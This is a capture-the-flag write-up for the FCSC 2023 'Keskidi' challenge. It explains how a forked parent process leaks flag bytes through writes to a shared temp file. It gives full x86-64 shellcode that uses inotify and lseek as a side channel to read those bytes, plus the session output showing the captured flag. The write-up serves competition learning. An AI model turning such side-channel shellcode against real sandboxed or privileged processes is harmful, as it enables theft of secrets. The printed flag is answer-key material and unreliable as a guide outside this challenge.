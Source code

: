 # FCSC 2023 : Keskidi writeup

## Brief Summary
Essentially, we have an executable which calls `fork()`, the child process is unprivileged and runs some user provided shellcode, while the parent process does some operations on a temporary file (accessible from both processes via  a file descriptor) based on the content of the flag.

*Note: For convenience I added symbols using objcopy into a new binary `keskidi_s` , and I refer to them in this WU for clarity*

## Before forking

- The program creates a temporary file, saves its fd `tmp_fd` in the `.bss` at `tmp_fd`
- It then generates 4096 bytes that are then copied into the temporary file, and into the `.bss` at `tmp_buff`.

*Note: because there are only 255 non-null possibles chars, and we generate 4096 bytes, given a flag character, it is extremely unlikely that the buffer and temporary file do not contain it at least once.*

## After forking 
### What is the parent process doing ?

First, the parent opens `flag.txt`, copies its content to a local buffer `flag_buf`
Then it follows this procedure (decompilation from ghidra + variables renamed)

```C
  len_flag = strlen(flag_buf);
  for (i = 0; i < (int)len_flag; i = i + 1) {
    head = &tmp_buff;
    do {
      head = (undefined *)memchr(head,(int)flag_buf[i],0x1000 - (long)(head + -0x4060));
      if (head != (undefined *)0x0) {
        lseek(tmp_fd,(__off_t)(head + -0x4060),0);
        write(tmp_fd,&zero,1);
        syncfs(tmp_fd);
        head = head + 1;
      }
    } while (head != (undefined *)0x0);
  }
  flag_fd = close(tmp_fd);
```

Relevant things to note :
- each time a character is written, `syncfs()` is called, which ensures the write is propagated to the file system
- at each write, the position indicator of the tmp file is set by to some value, say `j-1`, by the `lseek` call, then to `j` by the call to `write()`
- We have that `flag[i]==tmp_buff[j-1]`

### What is the child process doing ?

It's quite straightforward, a user provided shellcode of length at most 256 bytes is ran into a freshly mmaped region in memory of size 256 bytes. At shellcode execution, this region is not writable.

## The Idea
Everytime a call to `syncfs` is used in the parent we output the corresponding flag character in the child, by peeking into `tmp_buffer`, using the head of the position indicator file, which we can get using an `lseek(tmp_fd,0,SEEK_CUR)` syscall. 

By looking into gdb, I found that tmp_fd is reliably equals to 4, and saw that `SEEK_CUR = 2` by compiling then running an appropriate C code that prints it.

The `inotify` API is exactly what we are looking for to peek on writes on a file. It is a family of syscalls which allow for monitoring of the filesystem.

Calling `inotify_init()` will return a special file descriptor, say `ifd`, that is blocking on `read` (stops execution) until an event happens.

Then, calling `inotify_add_watch(ifd,'proc/self/fd/4',IN_MODIFY)` will make it so that modification events (IN_MODIFY) on the temporary file (accessible via `'proc/self/fd/4'` filename) will be registered in ifd

Reading from `ifd` will block until a new event has been registered.

So the idea is to have a loop in the child, in which at each iteration we do the following :
- wait for a write event (ie, read from `ifd`)
- retrieve the position indicator `j` of tmp_fd via `lseek`, 
- write `tmp_buff[j-1]` to `stdout`

Easy right ? Except that if a character is found multiple times in the `tmp_buffer`, there will be multiple writes for this character into the tmp file.

To circumvent this issue, I made the assumption (which luckily turned out to be right :P) that no two consecutive flag characters are equal, and so I adjusted the shellcode to only print a character to stdout if it is different from the previous.

## Exploit

Here is the bulk of the exploit.
I had to run it a number of times because sometimes some characters are missed

```python
ret_addr_off = 0x13c0
tmp_buff_off = 0x4060
tmp_buff_fd = 0x4040
tmp_fd = 4
tmp_name = b'/proc/self/fd/4\x00'
sc = b''

sc += asm(
        f"""
        pop r8
        add r8, {tmp_buff_off - ret_addr_off}
        
        xor rax, rax
        add al, 253
        syscall

        mov rdi, rax
        mov r10, {int.from_bytes(tmp_name[8:],'little')}
        push r10
        mov r10, {int.from_bytes(tmp_name[:8],'little')}
        push r10
        mov rsi, rsp
        mov rdx, 2
        xor rax, rax
        add al, 254
        syscall
        mov rcx, rax

        mov rbx, rdi
        xor r9, r9
        peek:
            mov rdi, rbx
            mov rdx, 16
            xor rax, rax
            syscall

            mov rdi, 4
            xor rsi, rsi
            mov rdx, 1
            xor rax, rax
            add al, 8
            syscall

            mov rax, QWORD PTR [rax - 1 +r8]
            push rax
            shl rax,56
            cmp rax,r9
            je peek

            mov r9, rax
            
            mov rdi, 1
            mov rsi, rsp
            mov rdx, 1
            xor rax, rax
            add al, 1
            syscall

            cmp r8, r8
            je peek
        """
        )
        
io = start()
io.send(sc + b"\n")
io.interactive()
```

## FLAG
```
[*] '/home/skuuk/fcsc23/keskidi/keskidi_s'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2103: Done
[*] Switching to interactive mode
FCSC{5cda7f51ba4724231c8eb5a29c970423b73a7d462e3075ed39ec3ab5d3fbc4e8}[*] Got EOF while reading in interactive
$ 
```




